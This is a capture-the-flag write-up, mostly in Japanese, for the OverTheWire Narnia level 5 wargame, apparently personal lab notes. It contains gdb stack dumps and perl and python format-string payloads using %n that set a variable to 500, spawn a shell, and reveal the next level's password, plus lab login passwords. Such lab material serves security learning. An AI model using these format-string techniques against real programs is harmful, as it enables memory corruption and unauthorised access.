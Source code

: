 $ ssh -p 2226 narnia5@narnia.labs.overthewire.org
faimahchiy

ローカル変数のiを500(0x1f4)にできれば終わり

~/ctf/OverTheWire/Narnia/level5:yyy@[master](*｡˃̵ω ˂̵｡) < ./narnia5 AAAAA,%p,%p,%p,%p,%p,%p,%p                                                                                               [master]
Change i's value from 1 -> 500. No way...let me give you a hint!
buffer : [AAAAA,0xfec7,0xffffffff,0x2f,0xf7e05dc8,0x41414141,0x78302c41,0] (63)
i = 1 (0xffffbf7c)

gdb-peda$ x/10wx 0xffffbf3c 0xffffbf3c: 0x00000001 
gdb-peda$ x/100wx $esp
0xffffbed0: 0xffffbeec  0x00000040  0xffffc282  0x0000fec7
0xffffbee0: 0xffffffff  0x0000002f  0xf7e05dc8  0xf7fd4858
0xffffbef0: 0x00008000  0xf7fab000  0xf7fa9244  0x08048319
0xffffbf00: 0x00000002  0x00000000  0x08049858  0x080485d2
0xffffbf10: 0x00000002  0xffffbfd4  0xffffbfe0  0xf7e27c0b
0xffffbf20: 0xf7fab3dc  0x0804820c  0x0804858b  0x00000001
0xffffbf30: 0xf7fab000  0xf7fab000  0x00000000  0xf7e11637
0xffffbf40: 0x00000002  0xffffbfd4  0xffffbfe0  0x00000000
0xffffbf50: 0x00000000  0x00000000  0xf7fab000  0xf7ffdc04
0xffffbf60: 0xf7ffd000  0x00000000  0xf7fab000  0xf7fab000
0xffffbf70: 0x00000000  0x74d941ad  0x498c2fbd  0x00000000
0xffffbf80: 0x00000000  0x00000000  0x00000002  0x080483c0
0xffffbf90: 0x00000000  0xf7fee030  0xf7fe88a0  0xf7ffd000
0xffffbfa0: 0x00000002  0x080483c0  0x00000000  0x080483e1
0xffffbfb0: 0x080484bd  0x00000002  0xffffbfd4  0x08048580
0xffffbfc0: 0x080485f0  0xf7fe88a0  0xffffbfcc  0xf7ffd918
0xffffbfd0: 0x00000002  0xffffc252  0xffffc282  0x00000000
0xffffbfe0: 0xffffc29b  0xffffc2d7  0xffffc2e9  0xffffc2f8
0xffffbff0: 0xffffc303  0xffffc316  0xffffc330  0xffffc347
0xffffc000: 0xffffc373  0xffffc3a6  0xffffc3c7  0xffffc3d3
0xffffc010: 0xffffc3dd  0xffffc402  0xffffc415  0xffffc4d7
0xffffc020: 0xffffc4e9  0xffffc4fd  0xffffc513  0xffffc528
0xffffc030: 0xffffc537  0xffffc55e  0xffffc587  0xffffc5a8
0xffffc040: 0xffffc5c3  0xffffc5d5  0xffffc5f5  0xffffc608
0xffffc050: 0xffffc642  0xffffc686  0xffffc6bc  0xffffc700

gdb-peda$ x/100wx $esp
0xffffbed0: 0xffffbeec  0x00000040  0xffffc282  0x0000fec7
0xffffbee0: 0xffffffff  0x0000002f  0xf7e05dc8  0x41414141 <- AAA....
0xffffbef0: 0x302c4141  0x63656678  0x78302c37  0x66666666
0xffffbf00: 0x66666666  0x3278302c  0x78302c66  0x30653766
0xffffbf10: 0x38636435  0x3478302c  0x34313431  0x2c313431
0xffffbf20: 0x30337830  0x31346332  0x08003134  0x00000001 <- vale of i
0xffffbf30: 0xf7fab000  0xf7fab000  0x00000000  0xf7e11637
0xffffbf40: 0x00000002  0xffffbfd4  0xffffbfe0  0x00000000
0xffffbf50: 0x00000000  0x00000000  0xf7fab000  0xf7ffdc04
0xffffbf60: 0xf7ffd000  0x00000000  0xf7fab000  0xf7fab000
0xffffbf70: 0x00000000  0x74d941ad  0x498c2fbd  0x00000000
0xffffbf80: 0x00000000  0x00000000  0x00000002  0x080483c0
0xffffbf90: 0x00000000  0xf7fee030  0xf7fe88a0  0xf7ffd000
0xffffbfa0: 0x00000002  0x080483c0  0x00000000  0x080483e1
0xffffbfb0: 0x080484bd  0x00000002  0xffffbfd4  0x08048580
0xffffbfc0: 0x080485f0  0xf7fe88a0  0xffffbfcc  0xf7ffd918
0xffffbfd0: 0x00000002  0xffffc252  0xffffc282  0x00000000
0xffffbfe0: 0xffffc29b  0xffffc2d7  0xffffc2e9  0xffffc2f8
0xffffbff0: 0xffffc303  0xffffc316  0xffffc330  0xffffc347
0xffffc000: 0xffffc373  0xffffc3a6  0xffffc3c7  0xffffc3d3
0xffffc010: 0xffffc3dd  0xffffc402  0xffffc415  0xffffc4d7
0xffffc020: 0xffffc4e9  0xffffc4fd  0xffffc513  0xffffc528
0xffffc030: 0xffffc537  0xffffc55e  0xffffc587  0xffffc5a8
0xffffc040: 0xffffc5c3  0xffffc5d5  0xffffc5f5  0xffffc608
0xffffc050: 0xffffc642  0xffffc686  0xffffc6bc  0xffffc700


どうやってもiの値が変わんないと思ったら、解答通りやったとしてもなぜかSEVGしてできない

perlだと上手く行く？？？

~/ctf/OverTheWire/Narnia/level5:yyy@[master](*｡˃̵ω ˂̵｡) < ./narnia5 `perl -e 'print "\x8c\xbf\xff\xff" . "%x%x%x%.481d%n"'`                                                                  [master]
Change i's value from 1 -> 500. GOOD
$ exit
No way...let me give you a hint!
buffer : [����fec7ffffffff2f-00000000000000000000000000000000000000000000] (63)
i = 500 (0xffffbf8c)


pythonでもできた

~/ctf/OverTheWire/Narnia/level5:yyy@[master](*｡˃̵ω ˂̵｡) < ./narnia5 $(python -c 'print "\x8c\xbf\xff\xff" + "%x%x%x%482d%n"')                                                                [master]
Change i's value from 1 -> 500. GOOD
$ exit
No way...let me give you a hint!
buffer : [����fec7ffffffff2f                                             ] (63)
i = 500 (0xffffbf8c)


~/ctf/OverTheWire/Narnia/level5:yyy@[master](*｡˃̵ω ˂̵｡) < ./narnia5 $(python -c 'print "\x8c\xbf\xff\xff" + "%x%x%x%482x%n"')                                                                [master]
Change i's value from 1 -> 500. GOOD
$ exit
No way...let me give you a hint!
buffer : [����fec7ffffffff2f                                             ] (63)
i = 500 (0xffffbf8c)


何が問題？？？


narnia5@narnia:~$ /narnia/narnia5 `perl -e 'print "\x1c\xd7\xff\xff" . "%x%x%x%.471d%n"'`
Change i's value from 1 -> 500. GOOD
$ cat /etc/narnia_pass/narnia6
neezocaeng
$ exit
No way...let me give you a hint!
buffer : [���f7eb8fe6ffffffffffffd6fe-0000000000000000000000000000000000] (63)
i = 500 (0xffffd71c)

